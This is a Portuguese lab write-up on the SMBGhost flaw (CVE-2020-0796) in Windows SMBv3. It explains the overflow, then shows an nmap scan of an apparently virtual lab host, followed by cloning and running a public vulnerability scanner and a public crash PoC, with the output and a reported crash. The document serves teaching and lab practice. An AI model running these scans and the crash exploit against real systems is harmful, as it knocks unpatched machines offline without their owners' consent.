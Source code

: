 # CVE‑2020‑0796

O **CVE‑2020‑0796**, também conhecido como **SMBGhost**, é uma vulnerabilidade crítica que afeta o protocolo **SMBv3 (Server Message Block 3.1.1)** em versões específicas do Windows.

Trata-se de uma falha de **execução remota de código (RCE)**, permitindo que um atacante não autenticado possa enviar pacotes especialmente malformados ao sistema alvo, explorando a forma como o SMBv3 lida com compressão de pacotes.

A gravidade é avaliada como **10.0 (Crítica)** na escala CVSS v3, significando impacto máximo e sem necessidade de autenticação.

### Sistemas afetados

* **Windows 10 (versões 1903 e 1909)**: 32‑bit, x64 e ARM64
* **Windows Server (1903 e 1909)** — especialmente em instalações Server Core.

### Como funciona a exploração?

A vulnerabilidade ocorre devido a um **buffer overflow** causado por um **integer overflow**. O servidor (ou cliente) calcula erroneamente o tamanho do buffer com base em dados malformados (como `OriginalSize = 0xFFFFFFFF` e um `Offset` elevado), resultando na alocação de um buffer muito pequeno. Quando os dados são descomprimidos, ocorre sobrecarga de memória — levando potencialmente a execução de código remoto ou falha do sistema (BSOD).

* A ameaça é especialmente séria porque é **wormable**, ou seja, pode se propagar automaticamente entre sistemas vulneráveis — em estilo semelhante ao ransomware WannaCry.
* Foram publicados **códigos proof-of-concept (PoCs)** que exploram essa vulnerabilidade, inclusive através de ferramentas como o Metasploit.

## Verificando se o alvo tem a vunerabilidade

Verificando as portas abertas da máquina alvo
```
$ nmap -sS 192.168.1.39
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-29 22:23 -03
Nmap scan report for 192.168.1.39
Host is up (0.00030s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 08:00:27:15:FF:CF (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 18.79 seconds
```
**Busca no Google:** `CVE‑2020‑0796 github`

Encontramos um scanner para vunerabilidade<br>
[Scanner](https://github.com/ButrintKomoni/cve-2020-0796)

### Copiando o Scanner
```
$ git clone https://github.com/ButrintKomoni/cve-2020-0796
Cloning into 'cve-2020-0796'...
remote: Enumerating objects: 21, done.
remote: Counting objects: 100% (21/21), done.
remote: Compressing objects: 100% (19/19), done.
remote: Total 21 (delta 3), reused 11 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (21/21), 5.74 KiB | 5.74 MiB/s, done.
Resolving deltas: 100% (3/3), done.
```
`$ cd cve-2020-0796`
```
$ ls
cve-2020-0796-scanner.py  README.md
```
### Executando o scanner
```
$ python3 cve-2020-0796-scanner.py 192.168.1.39
Vulnerable
```
**Conclusão:** A máquina alvo está vunerável

## Ataque - crash da máquina alvo

A pesquisa no Google nos fornece um ataque que 'derruba' a OS da máquina alvo.<br>
[Ataque](https://github.com/jiansiting/CVE-2020-0796)

### Copiando o ataque
```
$ git clone https://github.com/jiansiting/CVE-2020-0796
Cloning into 'CVE-2020-0796'...
remote: Enumerating objects: 10, done.
remote: Counting objects: 100% (10/10), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 10 (delta 1), reused 10 (delta 1), pack-reused 0 (from 0)
Receiving objects: 100% (10/10), 406.04 KiB | 4.95 MiB/s, done.
Resolving deltas: 100% (1/1), done.
```
`$ cd CVE-2020-0796`
```
$ ls
cve-2020-0796.py  demo.gif  README.md
```
### Executando o ataque
```
$ python3 cve-2020-0796.py 192.168.1.39
***********************
*  CVE-2020-0796 PoC  *
*  By Jiansiting      *
***********************
Traceback (most recent call last):
  File "/home/OpsShadow/Documentos/White Hat/CVE-2020-0796/cve-2020-0796.py", line 111, in <module>
    send_compressed(sock, "JST" * 100)
    ~~~~~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^
  File "/home/OpsShadow/Documentos/White Hat/CVE-2020-0796/cve-2020-0796.py", line 98, in send_compressed
    sock.recv(1000)
    ~~~~~~~~~^^^^^^
TimeoutError: timed out
```
### Resultado
Crash na máquina alvo.
!Crash


